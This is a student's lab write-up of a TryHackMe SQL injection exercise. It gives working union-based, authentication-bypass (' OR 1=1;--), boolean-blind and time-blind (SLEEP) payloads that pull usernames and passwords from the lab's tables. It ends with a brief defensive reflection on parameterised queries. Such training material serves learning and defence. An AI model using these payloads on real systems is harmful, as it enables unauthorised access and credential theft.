# SQL Injection

### Mojalefa Nkwana
### NKWMOJ001
### 21/06/26
### [Lab: TryHackMe](https://tryhackme.com/room/sqlinjectionlm?utm_campaign=social_share&utm_medium=social&utm_content=share-completed-room&utm_source=copy&sharerId=6a32c1d1c9bf8925f6ff81e4)

---
## Introduction

SQL stands for __Structured Query Language__ - a language used to manipulate SQL-based databases.

Injection in this sense simply means what it implies, which is to insert something.

A long time ago, a group of technical people, including those with malicious intent, discovered that they could gain access to information that they were not authorized for by giving unexpected input during the authentication process. This meant that a civilian could all of a sudden make decisions or perform operations that were meant for the president of an organization. This became a major security concern for obvious reasons, so they even gave it a term: SQL Injection.

SQL injection is when a malicious string that is meant to break an underlying SQL structure is given as input to a form or any input structure instead of the expected input.

## Pre-lab Reflection

Things didn't quite click about how exactly this concept works. This is because, as a developer I had been developing using frameworks that were developed to circumvent issues such as these all along. So in my head I was like "Why the heck would this even work?".

## Lab Walkthrough

1. ### In-Band SQLi

    * __In-band SQLi__ - when results of the payload can be observed through the same interface used to send the payload.
        * __Error-based__ - when error messages are used to infer the underlying structure
        of an interface.
        * __Union-based__ - when a payload is constructed such that it returns additional data to an unauthorized platform.

    #### Retrieve Martin's password

    * I call this a URL type injection because we inject the payload though the browser's URL input.
    * Now in order to retrieve Martin's password, we first have to check if an SQL injection vulnerability exists.
    * First we add the (') character at the very end of the URL. Well, what do we have here!... "You have an error in your SQL syntax" is returned.
    * Now we know that the backend will happily process our payload.
    * We then have to somehow inject a payload that will modify a typical query to do our bidding.

    * Typical data fetch query in this case is as follows.

        ```SQL
        SELECT * FROM table WHERE id = 1;
        ```
    * But this will not help us get the juice. Because it returns a single table that probably contains a bunch of articles.

    * We have to use the `UNION` keyword to get our desired (second) table to latch on to the articles (first) table.
        * However `UNION` normally requires that we know the following
            1. Number of columns of the first table, 
            2. The column names and data types of the second table to match them with the columns from the first table. 
            3. The name of the actual table we desire.
    * We can see from the structure of the webpage that the first table is likely returned with 3 columns. But we are not sure and we don't know the columns of the second table, so we use a trick embedded in SQL, I call it the __'literal select'__, basically we can return a table of literals just by selecting them like this: `SELECT 1, 2, 3;`

        

    * We attach `UNION SELECT 1;` at the end of the input, but we get an error, which means we are likely not returning the right number of columns to latch on to the articles table.
    * We try again... Then, boom! `UNION SELECT 1, 2, 3;` is where it's at!, No error is returned, our desired table should have 3 columns.
    * Then what about the name of table and its columns. Well `SELECT 'database()` gives us the database we are dealing with

        
    
    * Using this in our context we construct the following payload

        ```SQL
        0 UNION SELECT 1, 2, database(); --
        ```

    * Which returns the following

        

    * This allows us to query the the built in __'information_schema'__ to give us more precise data.
    * Our interface only outputs 3 columns of 1 row, so to get more out of a row we use `group_concat(column)` which basically concatinates all rows of the given column into one string and fits it into the first cell. Now the first row of the given column tells us everything about the whole column.
    * Putting all these together we get the following query to retrieve table names from __information_schema__.

        ```SQL
        0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'; --
        ```

        

    * Now that we get the list of tables likely to contain the password, just from the name alone 'staff_users' sounds like gold.
    * we can check for the required columns using the following query

        ```SQL
        0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'; --
        ```

        

    * Finally, we now have all the requirements for us to construct a payload that should successfully retrieve Martin's password.

    * The payload is as follows

        ```SQL
        0 UNION SELECT 1,2,group_concat(username,':', password SEPARATOR '<br>') FROM staff_users; --
        ```

        

    * JackPot!!!, Martin's password is 'pa$$word'.


2. ### Blind SQLi - Authentication Bypass

    * __Blind SQLi__ - when results of the payload give very little to no feedback.
    * __Authentication Bypass__ - when we can get past the authentication step without having to guess a username or password.

    * What if we are trying to hack into some platform and all we can deal with is a plain login form, no other backend access apart from the login form.

    * We first have to check if an SQL injection vulnerability exists.
        * First we input the (') character at into username input box, and hope that validation does not exist. 
        * Well, by doing some page inspection, which works in this case, we can see that an error is returned.
    * We know that the backend will process our payload.
    * We then have to somehow inject a payload that will modify a typical query to do our bidding.

    * Typical data fetch query in this case is as follows.

        ```SQL
        SELECT * FROM table WHERE username = '%username%' and password = '%password%'; --
        ```
    * __username__ and __password__ are taken from the input.
    * The assumption is that "the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table".
    * Therefore the following payload should do the trick.
        ```SQL
        ' OR 1=1;--
        ``` 

        

    * And... Success!

        

3. ### Blind SQLi - Boolean Based

    * __Boolean Based Blind SQLi__ - when results of the payload only give a binary feedback.

    * A typical authentication system is as follows

        
    
    * As we can see from the image above, it's guarded as usual.
    * However, the information in the form has to be sent to the backend somehow. We can inspect the page to find the endpoint that the form communicates with and based on the structure of the endpoint we can find our exploit.

    * In our case the endpoint is as follows

        `https://website.thm/checkuser?username=admin123`

    * So we are in luck. Setting the endpoint in the browser we get the following.

        

    * A simple JSON returning true or false. At least its something.

    * Typical data fetch query in this case is as follows.

        ```SQL
        SELECT * FROM table WHERE username = '%username%'; --
        ```

    * First we add the (') character at the very end of the URL. An error (or false in this case) is returned.
    * Now we know that the backend will happily process our payload.
    * We then have to somehow inject a payload that will modify a typical query to do our bidding.

    * Again `UNION` normally requires that we know the following
        1. Number of columns of the first table, 
        2. The column names and data types of the second table to match them with the columns from the first table. 
        3. The name of the actual table we desire.

    * We try `UNION SELECT 1` until..., boom! `UNION SELECT 1, 2, 3;` is where it's at!, No error (or false) is returned, our desired table should have 3 columns.
    
    * Why does this `admin123' UNION SELECT 1, 2, 3;--` even cause the server to return true. Does this mean that the JSON `{"taken":true}` is dependant only on whether the query returns an error or not instead of checking the existence of username?

    * Anyway, to get the name of table we first have to at least figure out the name of database.

    ```SQL
    admin123' UNION SELECT 1,2,3 where database() like '%';--
    ```

    * The above just lets us know that there exists rows for which the condition is true.

    * When the payload above is applied in a brute force manner (repetitively), it allows us to guess the name of the selected database, by using `like 'a%'` to go through all alphanumeric characters until the feedback `{"taken":false}` is true.

    * We find our database name to be `sqli_three`.

    * Now that we have that, we use our friend __'information_schema'__ to find the name of the desired table.

    ```SQL
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
    ```

    * Again, we brute force the payload above.

    * We find our table name to be `users`.

    * Then, we go ahead and guess our desired columns using the following

    ```SQL
    admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' and table_name = 'users' and column_name like 'a%';--
    ```

    * The columns we care about must contain 'usernames' and 'passwords'.

    * Well, 'usernames' and 'passwords' happen to be valid column names.

    * We guess the correct username as follows.

    ```SQL
    admin123' UNION SELECT 1,2,3 from users where username like 'a%'; --
    ```

    * Username is `admin`.

    * Finally the most 'fun' part, time to guess the password.

    ```SQL
    admin123' UNION SELECT 1,2,3 from users where username = 'admin' and password like 'a%'; --
    ```
    * We do manual brute force like above and Boom! admin's password is 3845.

    * Proof of Payload.

    ```SQL
    admin123' UNION SELECT 1,2,3 from users where username = 'admin' and password = 3845; --
    ```
    * Hello World!.

        


4. ### Blind SQLi - Time Based

    * __Time Based Blind SQLi__ - when results of the payload can be observed through the time it takes for a response to arrive.
    
    * Sometimes, if the endpoint is too opaque, we can observe the response time of the API endpoint. 

    * In our case the endpoint is as follows

        `https://website.thm/analytics?referrer=tryhackme.com`

    * So we are in luck.

    * Typical data fetch query in this case is as follows.

        ```SQL
        SELECT * FROM table WHERE referrer = '%domain%'; --
        ```

    * In order to use time base SQLi to check if the backend processes our SQL payloads we use the following payload.

    ```SQL
    admin123' UNION SELECT SLEEP(5); --
    ```

    * If indeed the server takes 5 seconds to respond then we know that the backend will happily process our payload.
    * We then have to somehow inject a payload that will modify a typical query to do our bidding.

    * Again `UNION` normally requires that we know the following
        1. Number of columns of the first table, 
        2. The column names and data types of the second table to match them with the columns from the first table. 
        3. The name of the actual table we desire.

    * To get the name of table we first have to at least figure out the name of database.

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5); --
    ```
     * Since the above payload causes a 5 second delay, we now know that we are dealing with `2 columns`.

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5) where database() like '%'; --
    ```

    * When the payload above is applied in a brute force manner (repetitively), it allows us to guess the name of the selected database, by using `like 'a%'` to go through all alphanumeric characters until the feedback `{"taken":false}` takes 5 seconds to arrive.

    * We find our database name to be `sqli_four`.

    * Now that we have that, we use our friend __'information_schema'__ to find the name of the desired table.

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5) FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
    ```

    * Again, we brute force the payload above.

    * We find our table name to be `users`.

    * Then, we go ahead and guess our desired columns using the following

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5) FROM information_schema.columns WHERE table_schema = 'sqli_three' and table_name = 'users' and column_name like 'a%';--
    ```

    * The columns we care about must contain 'usernames' and 'passwords'.

    * Well, 'usernames' and 'passwords' happen to be valid column names.

    * We guess the correct username as follows.

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5) from users where username like 'a%'; --
    ```

    * Username is `admin`.

    * Finally the most 'fun' part, time to guess the password.

    ```SQL
    admin123' UNION SELECT 1, SLEEP(5) FROM users WHERE username = 'admin' AND password like 'a%'; --
    ```
    * We do manual brute force like above and Boom! admin's password is 4961.

    * Proof of Payload.

    ```SQL
    admin123' UNION SELECT SLEEP(5), 2 FROM users WHERE username = 'admin' AND password = 4961; --
    ```
    * Hello World!, Again.

        

5. ### Out-of-Band SQLi

    * __Out-of-band SQLi__ - when results of the payload are routed through a different interface or channel from the one used to send the payload.


## Concept Reinforcement

* For someone who has a habit of visualizing programming constructs in terms of objects. When I was first introduced to SQL injection, I struggled to grasp it, because there is hardly a mention that it only works when the backend constructs a query as a string that concatinates the input.

* Another concept I struggeled to grasp is this specific instance of Authentication Bypass because, looking at the following query

    ```SQL
    SELECT * FROM table WHERE username = '%username%' and password = '%password%'; --
    ```

    An assumption must exist that "the web application isn't interested in the content of the username and password but more in whether the two make a matching pair in the users table". Maybe in the 90s this would've been the case. 

    We can see that the query is 'asking' for the data to actually be returned. This is the most basic and intuitive understanding of the query, which makes it more likely for many developers. Unless the developer tries to be clever.

    I would argue that the likelihood of this query being the actual condition to login is low. So my guess is that typically, the query returns the data first, then the results are stored then a conditional check is performed.


## Defensive Perspective & Lesson's learnt

For the most part in my experience as a developer, my thinking was in terms of objects, so I mostly thought of data in its __parametarized__ form. Even if I had never known about this concept I would've intuitevely resorted to constructing queries in an __object oriented__ manner thus circumventing the risk anyway for the most part. 

Nevertheless, having come across web development from a hacker's perspective gets me to appreciate __modern web development frameworks__.

## References

### [tryhackme.com, SQL Injection](https://tryhackme.com/room/sqlinjectionlm?utm_campaign=social_share&utm_medium=social&utm_content=share-completed-room&utm_source=copy&sharerId=6a32c1d1c9bf8925f6ff81e4)
